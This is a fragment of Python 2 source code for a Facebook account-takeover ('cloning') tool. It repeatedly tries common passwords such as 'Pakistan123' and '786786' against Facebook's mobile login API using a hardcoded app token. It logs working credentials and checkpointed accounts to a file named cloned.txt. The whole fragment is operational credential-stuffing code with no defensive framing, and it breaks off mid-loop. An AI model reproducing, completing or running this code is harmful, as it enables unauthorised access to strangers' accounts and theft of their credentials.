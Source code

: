                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;93m(Done)  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan123"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;93m(Done)  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="Pakistan"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;93m(done)  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;93m(Done)  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')